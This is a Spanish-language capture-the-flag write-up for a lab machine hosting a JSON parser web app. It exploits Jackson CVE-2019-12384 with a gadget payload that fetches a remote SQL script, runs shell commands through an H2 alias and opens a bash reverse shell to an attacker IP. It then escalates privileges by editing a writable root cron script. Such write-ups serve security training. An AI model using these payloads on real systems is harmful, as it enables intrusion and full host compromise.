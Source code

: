 -------
- Tags: #json #SSRF #rce #cron-job 
---------
## Técnicas utilizadas
- Jackson CVE-2019-12384 Exploitation - SSRF to RCE  
- Abusing Cron Job [Privilege Escalation]
## Procedimiento

![[Pasted image 20230721100211.png]]

---------
#### Reconocimiento
Un escaneo con **Nmap** nos da como resultado los siguientes puertos:
```ruby
# nmap -sCV -p22,80 10.10.10.214 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 19:34 MST
Nmap scan report for 10.10.10.214
Host is up (1.1s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f7d97825f042be00a56325d145682d4 (RSA)
|   256 24ea5349d8cb9bfcd6c426efdd34c11e (ECDSA)
|_  256 fe2534e43edf9fed622aa49352cccd27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.18 seconds
```

Si lanzamos **WhatWeb** sobre el aplicativo web podemos ver las siguientes tecnologías corriendo por detrás:
```ruby
# whatweb 10.10.10.214
http://10.10.10.214 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.214], JQuery[3.2.1], Script, Title[Online JSON parser]
```

---------------
#### Jackson CVE-2019-12384 Exploitation - SSRF to RCE  
Si visitamos la pagina web, vemos que hay un tipo de convertidor de **Json** a un **Json Pretty**. Si colocamos la opcion **Beutify** y ponemos la estructura basica de un **Json** este simplemente nos lo colocara de forma ordenada y separada para visualizarlo de mejor manera ( como la herramienta **jq** pero a nivel de web ):
![[Pasted image 20230721193800.png]]

Al intentar hacer lo mismo pero con la otra opcion, vemos que nos lanza un error:
![[Pasted image 20230721193846.png]]

Al googlear por vulnerabilidades existentes encontramos un [articulo](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)que nos explica bien como conseguir una ejecución remota de comandos. Tenemos que colocar el **OneLiner** que nos indica el articulo, en la parte del input del **Validate**:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.3/inject.sql'"}]
```

Ahora podemos ponernos en escucha con **Python** compartiendo un larchivo el cual va a contener lo siguiente:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.10.10/443 0>&1')
```

Y esto nos entablara una **reverse shell**.

-----------
#### Abusing Cron Job [Privilege Escalation]
Si lanzamos **Pspy** podemos ver que **Root** esta ejecutando un script en intervalos regulares de tiempo. Este script escrito en **Bash** tiene permisos de **Escritura**, asi que podemos modificalro para que otorgue una **SUID** a la **Bash**.
